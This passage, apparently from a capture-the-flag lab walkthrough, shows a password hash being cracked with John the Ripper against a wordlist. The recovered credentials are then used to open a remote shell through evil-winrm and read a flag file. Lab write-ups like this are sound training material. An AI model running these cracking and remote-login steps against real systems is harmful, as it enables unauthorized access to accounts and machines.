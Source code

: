 Time to crack it with **john**!

```sh
john <file with hash> --wordlist=/usr/share/wordlist/rockyou.txt
```

![buse hash crack](/images/THM/ra/Captura25.PNG)

Once is cracked, let's open up a shell with [evil-winrm]. If you want to know more about it, you can go to his GitHub repository page.

```sh
evil-winrm -i <IP> -u buse -p '<password>'
```


![evil-winrm buse](/images/THM/ra/Captura26.PNG)

When we are in, and We look around a little, We will see the second flag.

```sh
cd ..
dir
dir Desktop
cd Desktop
type 'Flag 2.txt'
```
